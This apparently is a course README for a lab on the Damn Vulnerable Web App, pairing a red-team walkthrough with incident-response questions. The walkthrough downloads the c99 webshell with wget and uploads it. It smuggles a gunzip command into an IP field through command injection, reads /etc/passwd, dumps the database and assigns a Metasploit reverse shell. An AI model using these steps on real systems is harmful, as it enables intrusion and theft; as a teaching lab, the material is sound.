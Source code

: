 # Week 1 - Dam Vulnerable Web App(DVWA)
This week we are using DVWA for our incident response demo. DVWA provides a broken webapp that is ready to be hacked out of the box. Docker was platform of choice because if a container becomes corrupted just restart it :).

## Presentation
Intro to IR: https://docs.google.com/presentation/d/1SOx2SieLxJHPF1jzgPRR2ax-q90MurRFvVshQwSP46s/edit?usp=sharing

## Setup demo
### AWS EC2 & security group
0. Create Ubuntu 16.04 EC2 instance
0. Restrict AWS security group inbound to RIT IP address range and outbound to NONE

### Ansible playbook
0. vim hosts and add IP addr of host under "[dvwa]"
0. ansible-playbook -i hosts deploy_dvwa.yml

### Create Demo Docker container
0. ssh to host
0. docker run -d -p 80:80 infoslack/dvwa
0. docker ps
0. docker exec -it [docker container ID] bash
0. apt update -y && apt install vim htop net-tools git wget -y

### WebGUI setup
0. Browse to http://dvwa.hackinglab.beer 
0. Select "Create/Reset database" at the bottom
0. Select "Login"
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

## Perform red teaming
### Nikto scanner
0. nikto -host http://dvwa.hackinglab.beer

### Zip, upload and unzip c99.php
0. wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php
0. gzip -f c99.php
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter "8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php" into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer/hackable/uploads/c99.php

### Host situation awareness
0. Get current user: whoami
0. Get ip info: ip a
0. Get hostname: hostname
0. Get list of users: cat /etc/passwd
0. Get connection info: netstat -tunalp
0. Get process list: ps aux
0. Get known hosts: arp -a

### Dump database
0. mysql -u root -e "show databases;"
    1. There is no root password
0. mysql -u root -e "use dvwa; show tables"
0. mysqldump -u root --database dvwa

### Commit Docker container
0. Enter "exit" to detach from docker container
0. docker commit [docker container ID] dvwa_demo_temp
0. docker stop [docker container ID]
0. docker run -d -p 80:80 --restart always --name dvwa_demo dvwa_demo_temp

### Restart Docker container if corrupted
0. docker restart dvwa_demo

## Incident reponse demo
### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the hacker's machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Give a brief description how the attacker stole the data?
0. Lookup three mitigations for next week.

## Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you won't receive any points.
0. Create a script in with a programming language of your choice to do everything in the “understanding the machine” section, items listed below, and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY

## Red team challenge
### Create red team challenge container
#### Start container
0. docker run -d -p 8080:80 infoslack/dvwa
0. docker ps
0. docker exec -it [docker container ID] bash
0. apt update -y && apt install vim htop net-tools git wget -y

#### WebGUI setup
0. Browse to http://dvwa.hackinglab.beer:8080
0. Select "Create?reset database" at the bottom
0. Select "Login"
    1. Username: admin
    1. Password: password
0. Login
0. Select "DVWA security" on the left
0. Set the security level to "medium"

#### Commit Docker container
0. Enter "exit" to detach from docker container
0. docker commit [docker container ID] dvwa_pwn_temp
0. docker stop [docker container ID]
0. docker run -d -p 8080:80 --restart always --name dvwa_pwn dvwa_pwn_temp

### Create a PHP reverse shell with Metasploit
* attack: http://dvwa.hackinglab.beer:8080
* DO NOT ATTACK port 80

### Restart Docker container if corrupted
0. docker restart dvwa_pwn

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html